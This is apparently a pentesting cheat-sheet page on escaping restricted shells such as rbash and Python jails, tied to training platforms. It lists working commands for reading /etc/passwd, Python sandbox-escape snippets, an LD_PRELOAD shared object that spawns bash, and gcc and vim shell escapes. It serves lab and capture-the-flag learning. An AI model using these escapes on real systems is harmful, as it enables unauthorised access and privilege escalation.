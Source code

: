 # Restricted Shells

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![escaping_from_jails](../../../../_badges/hacktricks/escaping_from_jails.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash#bash-jails)
[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

A restricted shell such as `rbash` is a shell that restrict the action of the user to a limited list of commands/arguments. For instance, for rbash:

* we cannot use commands with pathnames containing a "/"
* we can use `help` to list available commands
* we cannot use `cd`
* more restrictions may be in place

To escape of restricted shells, we can try to use command substitution (ex: <code>ls \`pwd\`</code>), command chaining, or editing environment variables.
</div><div>

Common tricks:

* **List files**: `echo /*` and `echo /.*`
* **Read a file**: `read f < /etc/passwd; echo $f`
* **Read a file**: `f=$(</etc/passwd); echo $f`

Use `compgen -c`, `help`, or `<tab>` to list available commands.

📚 Sometimes, `ssh [...] -t "/bin/bash --noprofile"` may work.
</div></div>

<hr class="sep-both">

## Restricted Bash (rbash)

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

#### Enumeration

The `readonly` command is useful to list which variable you can't edit.

```shell!
$ readonly
ENV
PATH
HOME
```

You can use `declare` to get information about your environment.

```shell!
$ declare -x # remove -x to see functions
BASH_VERSINFO=([0]="4" [1]="4" [2]="20" [3]="1" [4]="release" [5]="i686-pc-linux-gnu")
BASH_VERSION='4.4.20(1)-release'
PATH=/tmp/void/
SHELLOPTS=braceexpand:emacs:hashall:histexpand:history:interactive-comments:monitor
```
</div><div>

#### Read a file

Method using `mapfile`:

```shell!
$ mapfile array < /etc/passwd
$ echo ${array[@]}
```

Method using `history`:

```shell!
$ export HISTFILE=/etc/passwd
$ history -r
$ history
```

Method using `bind`:

```shell!
$ bind -f /etc/passwd
```
</div></div>

<hr class="sep-both">

## Python Jails

<div class="row row-cols-lg-2"><div>

#### Python Jails Enumeration

Find variables and information about your context:

```py
globals()     # global symbols (variables, functions)
locals()      # local symbols (function, method, block)
vars()        # without any argument, same as 'locals'
```

```py
__builtins__.__dict__
del __builtins__  # restore them
__builtins__.__dict__['open']
__builtins__.__dict__['__import']('os')
```

#### Python File Write

[![pythonplayground](../../../../_badges/thm-p/pythonplayground.svg)](https://tryhackme.com/r/room/pythonplayground)

You can arbitrarily create files or python scripts using:

```py
print("Hello, World!", file=open("/dev/shm/poc", "w"))
print("im"+"port os\nprint(os.getcwd())", file=open("/dev/shm/poc.py", "w"))
```

#### Python File Read

```py
file=open("/etc/passwd", "r"); print(''.join(file.readlines()))
help('print') # :e/path/to/file
```
</div><div>

#### Python Jails Escape

[![pythonplayground](../../../../_badges/thm-p/pythonplayground.svg)](https://tryhackme.com/r/room/pythonplayground)

Arbitrarily set a variable, such as the list of blocked commands:

```py
setattr(__import__('__main__'),'blocklist',[])
```

Try loading modules using `__import__`:

```py
__import__("os").getcwd()
```

Set the path to load arbitrary Python files:

```py
setattr(__import__("sys"), "path", list(("/dev/shm/",))) ; __import__("my_file")
__import__("sys").path.append("/dev/shm/") # better?
```

Use breakpoint:

```py
breakpoint() # then write any python code
```
</div></div>

<hr class="sep-both">

## Special Scenarios

<div class="row row-cols-lg-2"><div>

#### LD_PRELOAD

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If we have access to a program that honor `LD_PRELOAD`, e.g. any command aside from the builtin functions, we may be able to pop a bash. For that to be possible, we need a malicious `.so`. 

If `gcc` is available, we can easily compile one, while it's unlikely. 

```shell!
$ echo 'void _init() {' > /tmp/test.c
$ echo 'system("/bin/bash");' >> /tmp/test.c
$ echo '}' >> /tmp/test.c
$ gcc -shared -fPIC /tmp/test.c -o /tmp/test.so -nostartfiles
$ LD_PRELOAD='/tmp/test.so' gcc
```

➡️ If gcc is available, `gcc -wrapper /bin/bash,-s .` is faster.
</div><div>

#### VIM

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If you can run VIM, it's easy to escape:

```ruby!
:set shell=/bin/bash
:shell
```
</div></div>